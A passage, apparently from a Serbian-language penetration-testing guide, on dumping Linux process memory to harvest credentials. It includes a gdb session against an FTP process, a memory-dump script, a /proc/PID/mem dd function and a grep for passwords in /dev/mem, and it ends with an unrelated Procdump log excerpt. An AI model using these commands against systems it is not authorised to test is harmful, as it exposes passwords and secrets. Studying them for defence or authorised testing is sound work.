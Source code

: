 Ako imate pristup memoriji FTP servisa (na primer), možete dobiti Heap i pretraživati njegove kredencijale.

```bash
gdb -p <FTP_PROCESS_PID>
(gdb) info proc mappings
(gdb) q
(gdb) dump memory /tmp/mem_ftp <START_HEAD> <END_HEAD>
(gdb) q
strings /tmp/mem_ftp #User and password
```

#### GDB skripta

{% code title="dump-memory.sh" %}
```bash
#!/bin/bash
#./dump-memory.sh <PID>
grep rw-p /proc/$1/maps \
| sed -n 's/^\([0-9a-f]*\)-\([0-9a-f]*\) .*$/\1 \2/p' \
| while read start stop; do \
gdb --batch --pid $1 -ex \
"dump memory $1-$start-$stop.dump 0x$start 0x$stop"; \
done
```
{% endcode %}

#### /proc/$pid/maps & /proc/$pid/mem

Za dati ID procesa, **maps prikazuje kako je memorija mapirana unutar virtualnog adresnog prostora tog procesa**; takođe prikazuje **dozvole svake mapirane regije**. Pseudo fajl **mem otkriva samu memoriju procesa**. Iz fajla **maps znamo koje su memorijske regije čitljive** i njihove ofsete. Koristimo ove informacije da **tražimo u mem fajlu i izbacimo sve čitljive regije** u fajl.

```bash
procdump()
(
cat /proc/$1/maps | grep -Fv ".so" | grep " 0 " | awk '{print $1}' | ( IFS="-"
while read a b; do
dd if=/proc/$1/mem bs=$( getconf PAGESIZE ) iflag=skip_bytes,count_bytes \
skip=$(( 0x$a )) count=$(( 0x$b - 0x$a )) of="$1_mem_$a.bin"
done )
cat $1*.bin > $1.dump
rm $1*.bin
)
```

#### /dev/mem

`/dev/mem` pruža pristup **fizičkoj** memoriji sistema, a ne virtuelnoj memoriji. Virtuelni prostor adresa kernela može se pristupiti koristeći /dev/kmem.\
Tipično, `/dev/mem` je samo čitljiv od strane **root** korisnika i **kmem** grupe.

```
strings /dev/mem -n10 | grep -i PASS
```


[20:20:58 - WARN]: Procdump not running with elevated credentials. If your uid does not match the uid of the target process procdump will not be able to capture memory dumps
[20:20:58 - INFO]: Timed:
[20:21:00 - INFO]: Core dump 0 generated: ./sleep_time_2021-11-03_20:20:58.1714